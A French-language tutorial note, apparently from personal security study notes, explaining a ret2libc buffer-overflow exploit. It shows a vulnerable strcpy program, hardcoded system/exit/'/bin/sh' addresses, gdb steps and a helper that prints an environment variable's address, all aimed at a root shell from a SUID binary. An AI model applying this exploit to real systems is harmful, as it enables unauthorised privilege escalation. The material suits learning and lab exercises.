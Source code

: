



#### **Théorie**

- La fonction system() de la librairie Libc permet d'exécuter une commande dans un terminal. Si nous réussissons à faire revenir le programme sur l'adresse de cette fonction avec un arguments qui appelle /bin/sh, nous pouvons exécuter un shell en tant que root si le programme victime est en SUID.

#### **Pratique**

##### **Exploit 1**
- **Environnement**
	- L'ordinateur ne doit pas avoir l'ASLR (randomisation de stack) active car nous aurons besoin de l'adresse d'une variable d'environnement, de la fonction systeme et exit. Cependant, cet exploit vise à bypass la désactivation d'exécution d'instructions à partir de la stack. Cette protection nous empêche de mettre dans le buffer notre shellcode car il sera pas exécuté de toute façon.

- **Code source**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
 "\xc0\xf2\x03\x42” //system()
“\x02\x9b\xb0\x42” //exit()
“\xa0\x8a\xb2\x42” //binsh

- **Exploitation**
	- Là on va devoir utilisé gdb. En gros, ce qu'on veut c'est remplacer l'adresse de retour d'une fonction par l'adresse qui pointe vers la fonction system(). La fonction system va donc "déplacer" le processus et va prendre en paramètre ce qu'on place derrière. Ce qu'on va placer derrière c'est l'adresse de la fonction exit() pour pouvoir fermer le programme exploité mais ca ne va pas fermer le processus system(). System va donc lire les paramètres qu'il y a après et nous on va donc mettre l'adresse de la variable d'environnement qui lance /bin/sh.
	- Pour ça, il faut 1) Trouver les adresses de la fonction system() dans l'environnement du programme cible, 2) Trouver l'adresse de la fonction exit() et 3) Créer une variable d'environnement qui lance /bin/sh.
	- 1)
		- Dans gdb lancé avec le programme cible, on fait `p system` après avoir fait `run`.
	- 2)
		- Juste après, on fait pareil avec `p exit`
	- 3)
		- Enfin, on peut faire un petit programme qui créer et affiche l'adresse d'une variable d'environnement :
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
	setenv("binsh", "/bin/sh", 1);
	char *binsh_addr = getenv("binsh");
	printf("Adresse de binsh : %p\n", (void *)binsh_addr);
	return 0;
}
```
- 
	- Après ça, on créer vite fait notre shellcode expliqué au début avec d'abord l'adresse de system(), de exit() et enfin de binsh
	- Enfin, on créer un programme qui fait le payload avec un padding à ajusté et qui lance le programme, comme pour les exploit [[strcpy#^aadea3|strcpy]] et [[Nop Sled Strcpy#^a5154f|Nop Sled strcpy]].
	- Si tous se passe bien, tu devrais avoir un shell root qui pop.

